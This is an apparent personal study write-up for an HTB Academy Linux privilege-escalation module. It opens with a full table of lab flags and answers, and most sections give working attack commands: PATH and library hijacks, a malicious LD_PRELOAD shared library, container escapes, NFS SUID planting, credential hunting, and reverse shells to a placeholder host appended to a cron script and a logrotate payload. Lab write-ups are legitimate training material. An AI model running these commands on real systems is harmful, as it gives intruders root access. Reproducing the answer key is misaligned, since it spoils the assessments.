


# Linux Privilege Escalation (HTB Supplementary)

HTB Academy module, supplementary to [[Linux Privilege Escalation (Offsec)|Module 18 (Offsec)]]. That module covers the manual enumeration checklist, LinPEAS, cron job abuse, /etc/passwd world-writable, SUID GTFOBins, capabilities, sudo GTFOBins, and kernel exploit workflow. This note documents everything genuinely new from the HTB version.

Cross-reference [[Linux Privilege Escalation]] (Command Appendix) and [[Linux Privilege Escalation (Decision Tree)]] for quick lookups.

---

Tags: #LinuxPrivEsc #HTBSupplementary #SUID #Capabilities #LXD #Docker #Logrotate #NFS #LDPreload #SharedObject #PythonHijack #DirtyPipe #PwnKit #RestrictedShell #PathAbuse #PrivilegedGroups #KernelExploit

---

## Outstanding Sections

All sections complete. Q&A answers verified.

---

## Module Q&A Answers

| Section | Answer |
|---------|--------|
| LPE.1 Environment Enumeration | `HTB{1nt3rn4l_5cr1p7_l34k}` |
| LPE.2 Linux Services & Internals | `3.11` |
| LPE.3 Credential Hunting | `W0rdpr3ss_sekur1ty!` |
| LPE.4 Path Abuse | `/tmp` |
| LPE.5 Escaping Restricted Shells | `HTB{35c4p3_7h3_r3stricted_5h311}` |
| LPE.6 Special Permissions (SUID) | `/bin/sed` |
| LPE.6 Special Permissions (SGID) | `/usr/bin/facter` |
| LPE.7 Sudo Rights Abuse | `/usr/bin/openssl` |
| LPE.8 Privileged Groups | `ch3ck_th0se_gr0uP_m3mb3erSh1Ps!` |
| LPE.9 Capabilities | `HTB{c4paBili7i3s_pR1v35c}` |
| LPE.10 Vulnerable Services | `91927dad55ffd22825660da88f2f92e0` |
| LPE.11 Cron Job Abuse | `14347a2c977eb84508d3d50691a7ac4b` |
| LPE.12 LXD | `HTB{C0nT41n3rs_uhhh}` |
| LPE.13 Docker | `HTB{D0ck3r_Pr1vE5c}` |
| LPE.14 Logrotate | `HTB{l0G_r0t7t73N_00ps}` |
| LPE.15 Miscellaneous (NFS) | `fc8c065b9384beaa162afe436a694acf` |
| LPE.16 Kernel Exploits | `46237b8aa523bc7e0365de09c0c0164f` |
| LPE.17 Shared Libraries (LD_PRELOAD) | `6a9c151a599135618b8f09adc78ab5f1` |
| LPE.18 Shared Object Hijacking | `2.27` |
| LPE.19 Python Library Hijacking | `HTB{3xpl0i7iNG_Py7h0n_lI8R4ry_HIjiNX}` |
| LPE.20 Sudo -u#-1 Bypass | `HTB{SuD0_e5c4l47i0n_1id}` |
| LPE.21 Polkit (PwnKit) | `HTB{p0Lk1tt3n}` |
| LPE.22 Dirty Pipe | `HTB{D1rTy_DiR7Y}` |
| LPE.23 Skills Assessment Q1 | `LLPE{d0n_ov3rl00k_h1dden_f1les!}` |
| LPE.23 Skills Assessment Q2 | `LLPE{ch3ck_th0se_cmd_l1nes!}` |
| LPE.23 Skills Assessment Q3 | `LLPE{h3y_l00k_a_fl@g!}` |
| LPE.23 Skills Assessment Q4 | `LLPE{im_th3_m@nag3r_n0w}` |
| LPE.23 Skills Assessment Q5 | `LLPE{0ne_sudo3r_t0_ru13_th3m_@ll!}` |

---

## LPE.1. Environment Enumeration

The module opens with a broad sweep of the host before trying any specific technique. Goal: map what's available before committing to an attack path.

### System basics

```bash
# OS and kernel version
cat /etc/os-release
uname -a
cat /proc/version

# CPU architecture (relevant for compiled exploits)
lscpu | grep Architecture

# Mounted filesystems
df -h

# Environment variables (credentials, custom PATHs, API keys)
env
set | grep -i pass   # shell-specific variables too
```

Expected: you'll see the distro name/version, kernel version (needed for kernel CVE matching), and sometimes plaintext credentials in env vars left by misconfigured services.

### Hunting scripts that contain secrets

The lab exercise finds a flag by searching for `.sh` files owned by users and reading their content:

```bash
# Find all shell scripts anywhere readable
find / -name "*.sh" 2>/dev/null | xargs grep -l "HTB" 2>/dev/null
# Then read the specific file
cat /path/to/found/script.sh
```

Expected: a path like `/opt/scripts/backup.sh` containing a hardcoded credential or flag string.

> 📸 Screenshot: `find` output listing the script path, then `cat` showing the flag

**Q1 flag:** `HTB{1nt3rn4l_5cr1p7_l34k}`

🔍 Worth remembering generally: `.sh` scripts left world-readable frequently embed hardcoded passwords for database connections or remote backup credentials. Always run the find-and-grep sweep early.

---

## LPE.2. Linux Services & Internals Enumeration

Covers installed packages, running processes, and listening services as enumeration sources.

### Installed packages (finding vulnerable software)

```bash
# All installed packages with versions (dpkg)
dpkg -l

# Filter for a specific package family (example: all python3 minor versions)
apt list --installed 2>/dev/null | tr "/" " " | cut -d" " -f1,3 | grep "^python3\.[0-9]"

# RPM-based (RHEL/CentOS/Fedora)
rpm -qa
```

The module question asks which Python 3.x minor version is installed. The grep pattern above extracts just the version field. Expected output: `python3.11 3.11.X`.

**Q1 answer:** `3.11`

### Running processes (spotting root-owned services)

```bash
# Full process list with UID info
ps aux

# Processes running as root (service binaries, cron handlers)
ps aux | grep root

# Open sockets (network service discovery)
ss -lntp     # listening TCP + PID
ss -lnup     # listening UDP
netstat -tlnp 2>/dev/null  # fallback if ss not available
```

Expected: services you didn't spot in nmap (bound to 127.0.0.1 or unusual ports), database processes, internal HTTP listeners, VPN daemons.

### Cron jobs

```bash
cat /etc/crontab
ls -la /etc/cron.d/ /etc/cron.daily/ /etc/cron.hourly/ /etc/cron.weekly/
crontab -l          # current user's crontab
crontab -l -u root  # root's crontab (requires permission)
```

🔁 Similar to: [[Linux Privilege Escalation (Offsec)#18.3.1. Abusing Cron Jobs|18.3.1]] for the mkfifo injection technique once you find a writable cron script.

---

## LPE.3. Credential Hunting

Structured credential sweep targeting the most productive locations on Linux hosts.

### Application config files

```bash
# WordPress config (most common PHP app on Linux targets)
cat /var/www/html/wp-config.php | grep "DB_"
# Shows: DB_NAME, DB_USER, DB_PASSWORD, DB_HOST

# Common config file patterns
find / -name "*.conf" -readable 2>/dev/null | xargs grep -il "password" 2>/dev/null
find / -name "*.php" -readable 2>/dev/null | xargs grep -il "password" 2>/dev/null
find / -name "settings.py" -readable 2>/dev/null | xargs grep -i "password\|secret" 2>/dev/null
```

**Lab:** reading `/var/www/html/wp-config.php` reveals `DB_PASSWORD`.

**Q1 answer:** `W0rdpr3ss_sekur1ty!`

### History files and bash artifacts

```bash
cat ~/.bash_history
cat ~/.zsh_history
cat ~/.mysql_history
cat ~/.psql_history
cat ~/.python_history
# Check all users if readable
find /home -name ".*history" -readable 2>/dev/null
find /root -name ".*history" -readable 2>/dev/null
```

Expected: commands like `mysql -u root -pSomePass`, `scp user:password@host:file .`, or `curl -u admin:pass`.

### SSH keys

```bash
find / -name "id_rsa" -o -name "id_ed25519" 2>/dev/null
find / -name "*.pem" -o -name "*.key" 2>/dev/null
# Authorized keys (shows where the user can SSH to)
cat ~/.ssh/authorized_keys
```

### Environment and process memory

```bash
# Env vars for running processes (requires same UID or root)
strings /proc/<pid>/environ
cat /proc/<pid>/cmdline | tr '\0' ' '
```

🔁 Similar to: [[Linux Privilege Escalation (Offsec)#18.2.2. Inspecting Service Footprint|18.2.2]] for tcpdump loopback credential sniffing.

---

## LPE.4. Path Abuse

When `/tmp` or another writable directory appears early in the `$PATH`, you can place a fake binary with the same name as a root-owned script's dependency and hijack execution.

### Identify PATH hijacking opportunities

```bash
echo $PATH
# Look for writable directories appearing before /bin, /usr/bin
# Example dangerous PATH: /tmp:/usr/local/bin:/usr/bin:/bin
```

**Q1 answer:** `/tmp`

### Exploit: create a fake binary

Say root runs `/opt/scripts/backup.sh` which calls `cp` without an absolute path, and `/tmp` is in PATH before `/bin`:

```bash
# Step 1: confirm /tmp is writable (it always is)
# Step 2: create a fake 'cp' in /tmp
cat > /tmp/cp << 'EOF'
#!/bin/bash
cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash
EOF
chmod +x /tmp/cp

# Step 3: wait for root to run the script (or trigger it if possible)
# Step 4: execute the SUID bash
/tmp/rootbash -p
```

Expected after step 4: `whoami` returns `root`. The `-p` flag tells bash not to drop the SUID effective UID.

> 📸 Screenshot: `echo $PATH` showing `/tmp` first, then `/tmp/rootbash -p` landing root shell

🔍 Worth remembering generally: this works for any binary the script calls without an absolute path (`curl`, `wget`, `python`, etc). Always check the script source to find which external commands it invokes.

---

## LPE.5. Escaping Restricted Shells

Restricted shells (rbash, rzsh, lshell) limit available commands, block `cd`, and sometimes prevent running binaries from arbitrary paths.

### SSH -t bypass

Many restricted shells are set as the login shell in `/etc/passwd`. Bypassing them at the SSH connection level skips the shell setup entirely:

```bash
ssh htb-user@STMIP -t "bash --noprofile"
```

- `-t` forces a PTY allocation so the command runs interactively.
- `bash --noprofile` starts a fresh bash and skips `/etc/profile` and `~/.bash_profile`, those files are what load the restriction.

Expected: a full unrestricted bash prompt. `echo $SHELL` may still say `/bin/rbash` but your actual running shell is bash.

**Q1 flag:** `HTB{35c4p3_7h3_r3stricted_5h311}`

> 📸 Screenshot: SSH command with `-t "bash --noprofile"`, then `echo $SHELL` vs `echo $0` showing the difference

### Other escapes (if SSH isn't available)

```bash
# From within the restricted shell:
vi /dev/null
:set shell=/bin/bash
:shell

# Python (if available)
python3 -c 'import pty; pty.spawn("/bin/bash")'

# awk
awk 'BEGIN {system("/bin/bash")}'

# Less pager (if you can read a file)
less /etc/passwd
# Then press: !bash
```

🔁 Similar to: [[File Inclusion & Traversal#LFI-to-PTY|LFI PTY upgrade techniques]] for the shell stabilisation step after escaping.

---

## LPE.6. Special Permissions (SUID / SGID)

SUID = bit 4000, runs as file owner (usually root). SGID = bit 2000, runs as file group.

🔁 Similar to: [[Linux Privilege Escalation (Offsec)#18.4.1. SUID Binary Exploitation|18.4.1]] for the GTFOBins lookup workflow. This section shows the find commands and records the lab answers.

### Find SUID binaries

```bash
# All SUID files owned by root
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null

# Shorter variant
find / -perm /4000 2>/dev/null

# SGID files
find / -user root -perm -6000 -exec ls -ldb {} \; 2>/dev/null
# or:
find / -perm /2000 2>/dev/null
```

Expected: a list including standard SUID binaries (`/usr/bin/passwd`, `/usr/bin/sudo`, `/bin/su`) plus any non-standard ones that GTFOBins will have entries for.

**Lab SUID answer:** `/bin/sed`
**Lab SGID answer:** `/usr/bin/facter`

### Exploiting via GTFOBins

Once you have a non-standard SUID binary, look it up at [GTFOBins](https://gtfobins.github.io/) (search for the binary name, filter by SUID):

```bash
# sed SUID — read /etc/shadow or /root/.ssh/id_rsa
/bin/sed -n '1p' /etc/shadow

# find SUID (classic)
find . -exec /bin/sh -p \; -quit

# bash SUID
/bin/bash -p

# python SUID
python3 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

> 📸 Screenshot: `find` output showing `/bin/sed` with `rws` permissions, then sed reading `/etc/shadow`

---

## LPE.7. Sudo Rights Abuse

### Enumerate sudo permissions

```bash
sudo -l
```

Expected: a list of commands the current user can run as root (or another user) without a password, or with the current user's password.

**Lab answer:** `/usr/bin/openssl` (the sudo-allowed binary found in the exercise)

### LD_PRELOAD abuse (env_keep)

This is the most powerful sudo misconfiguration. If `/etc/sudoers` contains `env_keep+=LD_PRELOAD`, you can inject a shared library that runs before the allowed binary:

```bash
# Step 1: check for env_keep in sudo -l output
sudo -l
# Look for: env_keep+=LD_PRELOAD

# Step 2: write the malicious shared library
cat > /tmp/privesc.c << 'EOF'
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
EOF

# Step 3: compile as a shared object
gcc -fPIC -shared -o /tmp/privesc.so /tmp/privesc.c -nostartfiles

# Step 4: run any sudo-allowed binary with LD_PRELOAD pointing to your .so
sudo LD_PRELOAD=/tmp/privesc.so openssl
```

Expected: the `_init()` function runs before `openssl` even loads, drops you to root bash. `whoami` returns `root`.

> 📸 Screenshot: `sudo -l` showing `env_keep+=LD_PRELOAD` and `/usr/bin/openssl`, then the root shell

🔍 Worth remembering generally: `env_keep` is the dangerous part. Without it, sudo strips LD_PRELOAD from the environment before exec. The sudo man page explicitly warns against this configuration.

### Common GTFOBins sudo patterns

```bash
# vim (can open a shell from within the editor)
sudo vim -c ':!/bin/bash'

# find
sudo find . -exec /bin/bash \; -quit

# apt-get / apt
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/bash

# gcc
sudo gcc -wrapper /bin/bash,-s .

# less / man (pager shell escape)
sudo less /etc/hosts
# then: !bash
```

🔁 Similar to: [[Linux Privilege Escalation (Offsec)#18.4.2. Sudo Abuse|18.4.2]] for the full GTFOBins table.

---

## LPE.8. Privileged Groups

Linux group membership can grant access to sensitive resources or allow container escape. Key groups:

| Group | Risk |
|-------|------|
| `adm` | Read most system logs in `/var/log/` without being root |
| `sudo` / `wheel` | Run sudo (check sudoers for password requirement) |
| `lxd` / `lxc` | Container escape to mount host root |
| `docker` | Docker socket access = effective root on the host |
| `disk` | Direct disk device access (read/write any file via dd) |
| `shadow` | Read `/etc/shadow` (crack hashes offline) |
| `video` | Read raw framebuffer (screenshot other users' screens) |

```bash
# Check your group memberships
id
groups

# Check all group memberships in /etc/group
cat /etc/group | grep "adm\|sudo\|docker\|lxd\|disk\|shadow"
```

### adm group: log hunting

```bash
# adm group = read /var/log/
ls /var/log/

# Hunt for passwords in web server logs
grep -r "password" /var/log/apache2/ 2>/dev/null
grep -r "password" /var/log/nginx/ 2>/dev/null

# Auth logs (SSH brute force attempts reveal valid usernames, sometimes plaintext pass attempts)
grep "Failed password" /var/log/auth.log | awk '{print $11}' | sort | uniq -c | sort -rn | head

# Application-specific logs often contain credentials submitted in plaintext
grep -iE "pass|pwd|secret|token|key" /var/log/*.log 2>/dev/null
```

**Lab answer:** `ch3ck_th0se_gr0uP_m3mb3erSh1Ps!`

> 📸 Screenshot: `id` showing `adm` group, then grep finding the flag in an apache2 log

---

## LPE.9. Capabilities

Linux capabilities are a fine-grained privilege splitting system. Some capabilities allow privilege escalation without full SUID.

🔁 Similar to: [[Linux Privilege Escalation (Offsec)#18.4.1. Linux Capabilities Exploitation|18.4.1]] for cap_setuid+ep patterns. The new technique here is `cap_dac_override`.

### Find files with capabilities set

```bash
find / -type f -exec getcap {} \; 2>/dev/null
# or faster (if your version supports it):
find / -xdev -type f 2>/dev/null | xargs getcap 2>/dev/null
```

Expected output examples:
- `/usr/bin/python3 = cap_setuid+ep` (GTFOBins entry: `import os; os.setuid(0); os.system("/bin/bash")`)
- `/usr/bin/vim.basic = cap_dac_override+ep` (read/write any file regardless of permissions)

**Lab answer:** `HTB{c4paBili7i3s_pR1v35c}`

### cap_dac_override: edit /etc/passwd

`cap_dac_override` bypasses discretionary access control (file permissions). With this on `vim.basic`, you can write to `/etc/passwd` as any user:

```bash
# Step 1: generate a password hash for a new root-level user
openssl passwd -1 -salt xyz hacked
# Output: $1$xyz$<hash>

# Step 2: open /etc/passwd with the capable vim
/usr/bin/vim.basic /etc/passwd

# Step 3: add a new root-level user at the end of the file
# Format: username:hash:0:0:root:/root:/bin/bash
hacked:$1$xyz$<hash>:0:0:root:/root:/bin/bash

# Step 4: switch to the new user
su - hacked
# Password: hacked
whoami   # root
```

Expected: `whoami` returns `root` after `su -`.

> 📸 Screenshot: `getcap` output showing `vim.basic cap_dac_override+ep`, then `su - hacked` landing root shell

### cap_setuid+ep (recap)

```bash
# Python (GTFOBins)
python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'

# Perl (GTFOBins)
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'
```

---

## LPE.10. Vulnerable Services (GNU Screen 4.5.0)

Services running with SUID or as root can be exploited if a known CVE exists. Always check running service versions against searchsploit.

```bash
# List services with versions
dpkg -l | grep -i screen
screen --version

# Search for exploits
searchsploit screen 4.5
# Returns: GNU Screen 4.5.0 — Local Privilege Escalation (41154.sh)
```

### GNU Screen 4.5.0 LPE (searchsploit 41154.sh)

This exploit abuses Screen's SUID bit and a race condition in log file handling:

```bash
# Step 1: copy the exploit
searchsploit -m 41154.sh

# Step 2: review it (always read before running)
cat 41154.sh

# Step 3: run
bash 41154.sh
```

Expected: the script creates a SUID root shell at `/tmp/rootsh`. Running `/tmp/rootsh -p` gives root.

**Lab answer:** `91927dad55ffd22825660da88f2f92e0`

> 📸 Screenshot: `screen --version` confirming 4.5.0, then exploit output landing root shell

---

## LPE.11. Cron Job Abuse

🔁 Similar to: [[Linux Privilege Escalation (Offsec)#18.3.1. Abusing Cron Jobs|18.3.1]] for the mkfifo technique. The HTB module exercise uses a direct append to a world-writable backup script.

### Find world-writable cron scripts

```bash
# List cron jobs
cat /etc/crontab
ls -la /etc/cron.d/

# Check if the script is world-writable
ls -la /dmz-backups/backup.sh
# Look for: -rwxrwxrwx (world writable = anyone can append/overwrite)
```

### Exploit: append reverse shell

```bash
# Step 1: start listener on attack box
nc -nvlp PWNPO

# Step 2: append a reverse shell one-liner to the writable script
echo 'bash -i >& /dev/tcp/PWNIP/PWNPO 0>&1' >> /dmz-backups/backup.sh

# Step 3: wait for the cron job to trigger (check /etc/crontab for interval)
# When root runs the script, the appended line fires
```

Expected: reverse shell connection received, `whoami` returns `root`.

**Lab answer:** `14347a2c977eb84508d3d50691a7ac4b`

---

## LPE.12. LXD Privilege Escalation

If your user is in the `lxd` group, you can create a privileged container that mounts the host's root filesystem.

```bash
# Confirm group membership
id | grep lxd
```

### Alpine image import method

```bash
# On attack box: build the smallest possible Alpine image
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
bash build-alpine   # builds alpine-vX.XX-x86_64-<date>.tar.gz

# Transfer the .tar.gz to the target
python3 -m http.server 80   # on attack box
wget http://PWNIP/alpine-v3.XX-x86_64-<date>.tar.gz  # on target

# On the target (as lxd group member):
# Step 1: import the image
lxc image import ./alpine*.tar.gz --alias myimage

# Step 2: init a privileged container with host root mounted
lxc init myimage mycontainer -c security.privileged=true

# Step 3: mount the host's / into the container at /mnt/root
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true

# Step 4: start the container and exec a shell
lxc start mycontainer
lxc exec mycontainer /bin/sh

# Step 5: from inside the container, host filesystem is at /mnt/root
ls /mnt/root/root/
cat /mnt/root/root/flag.txt

# Or: drop a SUID bash for post-exploitation on the host
cp /mnt/root/bin/bash /mnt/root/tmp/rootbash
chmod +s /mnt/root/tmp/rootbash
# Then on the host:
/tmp/rootbash -p
```

Expected inside the container: full read/write access to host's `/` via `/mnt/root`. Reading `/mnt/root/etc/shadow`, `/mnt/root/root/.ssh/id_rsa`, or any protected file.

**Lab answer:** `HTB{C0nT41n3rs_uhhh}`

> 📸 Screenshot: `lxc exec` giving shell inside container, then `ls /mnt/root/root/` showing host root's home

🔍 Worth remembering generally: `security.privileged=true` disables the user namespace separation that normally protects the host. Combined with a device mount, it's a complete host escape regardless of container isolation.

---

## LXD Mermaid — Host Escape Flow



---

## LPE.13. Docker Privilege Escalation

If your user is in the `docker` group, you can mount the host filesystem into a container and chroot into it as root.

```bash
# Confirm group membership
id | grep docker

# Check for available images
docker images
```

### Mount and chroot

```bash
# Run a container with host / mounted at /mnt, then chroot
docker run -v /:/mnt --rm -it ubuntu chroot /mnt bash
```

Breaking this down:
- `-v /:/mnt` mounts the host root at `/mnt` inside the container
- `--rm` removes the container on exit
- `-it` interactive TTY
- `chroot /mnt bash` changes root to the mounted host filesystem, you're now running bash as root inside the host's own directory tree

Expected: `whoami` returns `root`, `ls /root` shows the host's root home directory.

```bash
# Read the flag
cat /root/flag.txt

# Plant a SUID shell for persistence
cp /bin/bash /tmp/rootbash
chmod +s /tmp/rootbash
# Exit container, then on host:
/tmp/rootbash -p
```

**Lab answer:** `HTB{D0ck3r_Pr1vE5c}`

> 📸 Screenshot: `docker run -v /:/mnt --rm -it ubuntu chroot /mnt bash` landing root shell, then `whoami`

🔍 Worth remembering generally: no Alpine image import needed here because the docker daemon itself is already on the host. The key is just the `-v /:/mnt` + `chroot /mnt bash` pattern.

---

## LPE.14. Logrotate Privilege Escalation

Logrotate runs as root on a schedule. If you can write to a directory where logrotate expects log files, you can use the `logrotten` tool to create a race condition and execute code as root.

### Conditions required

1. Logrotate runs (nearly every Linux system).
2. A log configuration rotates a file you can write to, or you can write to the directory containing the log.
3. Logrotate uses `create` mode (default, not `copytruncate`).

### logrotten exploit

```bash
# Step 1: on attack box, get logrotten
git clone https://github.com/whotwagner/logrotten.git
cd logrotten && gcc logrotten.c -o logrotten

# Transfer to target

# Step 2: create a payload script
cat > /tmp/payload << 'EOF'
#!/bin/bash
bash -i >& /dev/tcp/PWNIP/PWNPO 0>&1
EOF
chmod +x /tmp/payload

# Step 3: identify a log file you can write to
ls -la /var/log/*.log   # find writable ones

# Step 4: trigger logrotate (write to the log file to grow it, or wait for rotation)
echo "test" > /var/log/some.log

# Step 5: run logrotten against the log file
./logrotten -p /tmp/payload /var/log/some.log
```

How it works: logrotten watches for logrotate to rename the log file during rotation. At that exact moment, it replaces the file being created with a symlink to `/etc/bash_completion.d/`. Logrotate then writes the rotated content (as root) to that file, but because of the symlink, it actually writes to `/etc/bash_completion.d/`, which is sourced by every bash login. Logrotten places your payload there, so the next root bash login triggers it.

Expected: when root next logs in or a root bash opens, your payload fires.

**Lab answer:** `HTB{l0G_r0t7t73N_00ps}`

> 📸 Screenshot: logrotten running, then reverse shell callback when root session opens

---

## LPE.15. NFS No Root Squash

NFS shares configured with `no_root_squash` allow remote root access. When you mount such a share, files you create as local root retain root ownership on the share.

### Discovery

```bash
# From the target (internal enumeration):
cat /etc/exports

# From attack box (external enumeration):
showmount -e STMIP
# Look for: /share * (rw,no_root_squash)
```

`no_root_squash` means the NFS server does NOT map incoming root (UID 0) requests to the anonymous user. If you can write to the share as root from your attack box, those files appear as root-owned on the target.

### Exploitation

```bash
# On attack box (as your local root / sudo):
sudo mount -t nfs STMIP:/share /mnt/nfs

# Create a SUID bash copy
sudo cp /bin/bash /mnt/nfs/rootbash
sudo chmod +s /mnt/nfs/rootbash

# On the target:
ls -la /share/rootbash   # should show -rwsr-xr-x root root
/share/rootbash -p       # drop to root shell
```

Expected: because the file was created as root from a host where root_squash is disabled, the target sees it as root-owned SUID.

**Lab answer:** `fc8c065b9384beaa162afe436a694acf`

> 📸 Screenshot: `showmount -e` showing the `no_root_squash` flag, then `rootbash -p` giving root

---

## LPE.16. Kernel Exploits

🔁 Similar to: [[Linux Privilege Escalation (Offsec)#18.4.3. Kernel Exploits|18.4.3]] for the general workflow. The HTB module exercise uses a specific kernel CVE on Ubuntu 18.04.

### CVE-2021-3493 (Ubuntu OverlayFS)

Affects Ubuntu 14.04 through 20.04 (before April 2021 patches). Exploits an incorrect permission check in the OverlayFS filesystem implementation.

```bash
# Verify vulnerable kernel version
uname -r
# Vulnerable: 4.15.x on Ubuntu 18.04

cat /etc/os-release
# Ubuntu 18.04 LTS

# On attack box: get the PoC
searchsploit overlayfs
# Or from GitHub: github.com/briskets/CVE-2021-3493

# Compile on the target or on Kali with matching architecture
gcc exploit.c -o exploit
./exploit
```

Expected: drops root shell immediately. No configuration needed.

**Lab answer:** `46237b8aa523bc7e0365de09c0c0164f`

> 📸 Screenshot: `uname -r` confirming vulnerable kernel, exploit running, then `whoami` showing root

---

## LPE.17. Shared Libraries (LD_PRELOAD)

🔁 This is a fuller treatment of the sudo LD_PRELOAD technique from [[#LPE.7. Sudo Rights Abuse|LPE.7]], but applicable when the sudo config explicitly keeps `LD_PRELOAD` in the environment.

### Confirm env_keep in sudoers

```bash
sudo -l
# Look for line: env_keep+=LD_PRELOAD (or env_reset being absent)
```

### Compile and inject

```bash
# privesc.c — shared library that runs a root bash in _init()
cat > /tmp/privesc.c << 'EOF'
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/bash");
}
EOF

gcc -fPIC -shared -o /tmp/privesc.so /tmp/privesc.c -nostartfiles

# Run any sudo-allowed binary with LD_PRELOAD set
sudo LD_PRELOAD=/tmp/privesc.so <allowed-binary>
```

The `_init()` function is the shared library constructor, it runs before `main()` of the target binary. Because the binary was launched with `sudo`, the process has root privileges when `_init()` fires and calls `/bin/bash`.

**Lab answer:** `6a9c151a599135618b8f09adc78ab5f1`

> 📸 Screenshot: the injected library being compiled, then `sudo LD_PRELOAD=...` landing root bash

---

## LPE.18. Shared Object Hijacking

When a binary has SUID and loads shared libraries from a writable path, you can plant a malicious `.so` that gets loaded instead of the legitimate one.

### Identify the loading path

```bash
# ldd shows what shared objects a binary loads and from where
ldd /opt/some_binary

# readelf shows the RUNPATH (custom search paths baked into the binary)
readelf -d /opt/some_binary | grep -i "rpath\|runpath"
# Example: Library runpath: [/development/lib/]
```

If the RUNPATH directory is writable and you can write a `.so` there, the binary will load yours first.

### Create the malicious shared object

```bash
# Step 1: find the function name the binary expects to import
# (check ldd output, or disassemble the binary with nm/objdump)
objdump -d /opt/some_binary | grep "call"
nm /opt/some_binary | grep "U "   # undefined (imported) symbols

# Step 2: create a .so that exports the expected function + privesc payload
cat > /development/lib/malicious.so.c << 'EOF'
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
    setuid(0);
    system("cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash");
}
EOF

gcc -fPIC -shared -o /development/lib/malicious.so /development/lib/malicious.so.c

# Step 3: name it to match what the binary expects (from ldd output)
# e.g. mv malicious.so libcustom.so.1

# Step 4: run the SUID binary
/opt/some_binary

# Step 5: use the SUID bash
/tmp/rootbash -p
```

**Lab answer (glibc version check):** `2.27`

The lab question asks for the glibc version. Check with `ldd --version` which prints it directly.

> 📸 Screenshot: `readelf -d` showing writable RUNPATH, then `/tmp/rootbash -p` giving root

🔍 Worth remembering generally: this attack requires the RUNPATH to be writable AND ahead of the standard library paths. The writable RUNPATH is the misconfiguration, standard library paths like `/lib/x86_64-linux-gnu/` are root-owned.

---

## LPE.19. Python Library Hijacking

If a Python script runs with elevated privileges (sudo) and imports a module from a writable path, you can modify that module to inject arbitrary code.

### Three scenarios

**Scenario 1: Writable module in a site-packages directory**

```bash
# Find where the imported module lives
python3 -c "import psutil; print(psutil.__file__)"
# /usr/local/lib/python3.8/dist-packages/psutil/__init__.py

# Check if it's writable
ls -la /usr/local/lib/python3.8/dist-packages/psutil/__init__.py

# If writable, add a reverse shell at the top of __init__.py
# (above the existing module code so it runs on import)
echo 'import os; os.system("cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash")' \
  >> /usr/local/lib/python3.8/dist-packages/psutil/__init__.py

# Then trigger with sudo
sudo python3 /opt/script.py
/tmp/rootbash -p
```

**Scenario 2: PYTHONPATH controlled by user**

If `PYTHONPATH` is in the sudoers `env_keep`, place your malicious module in a directory and set PYTHONPATH:

```bash
# Create fake module
mkdir /tmp/psutil
cat > /tmp/psutil/__init__.py << 'EOF'
import os; os.system("cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash")
EOF

sudo PYTHONPATH=/tmp python3 /opt/script.py
/tmp/rootbash -p
```

**Scenario 3: Python searches current directory first**

```bash
# If sudo doesn't strip the cwd from Python's module search path:
# Create the fake module in the current working directory
cat > ./psutil.py << 'EOF'
import os; os.system("cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash")
EOF

# Run the script from that directory
sudo python3 /opt/script.py
```

**Lab answer:** `HTB{3xpl0i7iNG_Py7h0n_lI8R4ry_HIjiNX}`

> 📸 Screenshot: writable `__init__.py` confirmed, payload appended, then `sudo python3 script.py` triggering root bash

---

## LPE.20. Sudo User ID -1 Bypass (CVE-2019-14287)

Sudo before 1.8.28 has a bug where specifying `#-1` as the user ID is mishandled. `-1` is interpreted as "stay as current user" internally, but it maps to UID 0 in the process table.

### Vulnerable sudoers config pattern

```bash
sudo -l
# Shows: (ALL, !root) NOPASSWD: /usr/bin/ncdu
# The !root means "can run as any user EXCEPT root"
# But the CVE lets you bypass the !root restriction
```

